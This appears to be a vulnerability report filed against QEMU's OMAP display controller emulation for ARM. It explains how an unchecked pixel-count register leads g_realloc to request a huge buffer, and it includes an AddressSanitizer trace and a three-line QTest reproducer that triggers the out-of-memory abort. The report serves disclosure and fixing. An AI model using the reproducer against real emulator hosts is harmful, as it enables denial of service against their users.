 tag: arch: arm
tag: type: OOM

# Out-of-memory bug in hw/omap-dss for ARM causing a DoS

## Root cause analysis

In omap-dss, g_realloc(bounce_buffer, len) can allocate a very large buffer causing the memory exhaustion.

```
static void omap_rfbi_write(void *opaque, hwaddr addr, uint64_t value, unsigned size) {
   switch (addr) {
     case 0x44:	/* RFBI_PIXELCNT */
        s->rfbi.pixels = value; // first, set pixels with any value
        break;

static void omap_rfbi_transfer_start(struct omap_dss_s *s) {
    len = s->rfbi.pixels * 2;  // second, double pixels
    if (!data) {
        if (len > bounce_len) {
            bounce_buffer = g_realloc(bounce_buffer, len);
                                          // BOOM Here
        }
```

## More technique details

### QEMU version, upstream commit/tag
c52d69e7dbaaed0ffdef8125e79218672c30161d/6.1.50

### Host and Guest
Ubuntu 18.04 docker/QTest Fuzzer

### Stack traces, crash details

```
==471==ERROR: AddressSanitizer: requested allocation size 0xfffffffffffe0000 (0xfffffffffffe1000 after adjustments for alignment, red zones etc.) exceeds maximum supported size of 0x10000000000 (thread T0)
    #0 0x55a003044368 in __interceptor_realloc /root/llvm-project/compiler-rt/lib/asan/asan_malloc_linux.cpp:164
    #1 0x7f5cf9d85c8f in g_realloc (/usr/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x51c8f)
    #2 0x55a004095907 in memory_region_write_accessor /root/qemu/build-oss-fuzz/../softmmu/memory.c:491:5
    #3 0x55a0040952ed in access_with_adjusted_size /root/qemu/build-oss-fuzz/../softmmu/memory.c:552:18
    #4 0x55a0040952ed in memory_region_dispatch_write /root/qemu/build-oss-fuzz/../softmmu/memory.c:1502:16
    #5 0x55a003f433a1 in flatview_write_continue /root/qemu/build-oss-fuzz/../softmmu/physmem.c:2746:23
    #6 0x55a003f35f37 in flatview_write /root/qemu/build-oss-fuzz/../softmmu/physmem.c:2786:14
    #7 0x55a003f356dc in address_space_write /root/qemu/build-oss-fuzz/../softmmu/physmem.c:2878:18
    #8 0x55a003fecdc9 in qtest_process_command /root/qemu/build-oss-fuzz/../softmmu/qtest.c:534:13
    #9 0x55a003fecdc9 in qtest_process_inbuf /root/qemu/build-oss-fuzz/../softmmu/qtest.c:797:9
    #10 0x55a0041d7d5b in fd_chr_read /root/qemu/build-oss-fuzz/../chardev/char-fd.c:68:9
    #11 0x7f5cf9d803a4 in g_main_context_dispatch (/usr/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4c3a4)

==471==HINT: if you don't care about these errors you may set allocator_may_return_null=1
SUMMARY: AddressSanitizer: allocation-size-too-big /root/llvm-project/compiler-rt/lib/asan/asan_malloc_linux.cpp:164 in __interceptor_realloc
==471==ABORTING
```

### Reproducer steps

I use QTest to reproduce this bug.

```
#!/bin/bash -x
export QEMU=/root/qemu/build-oss-fuzz/qemu-system-arm
export BUILDROOT=./
# 0x48050800
cat << EOF | $QEMU \
-machine n810,accel=qtest -m 128M -qtest stdio -monitor none -serial none \
-display none -nodefaults -qtest stdio
writel 0x48050440 0x00000800
writel 0x48050844 0xFFFF0000
writel 0x48050840 0x00000011
EOF
```

qemu-system-arm: GLib: ../../../../glib/gmem.c:170: failed to allocate 18446744073709420544 bytes

## Contact

Let me know if I need to provide more information.
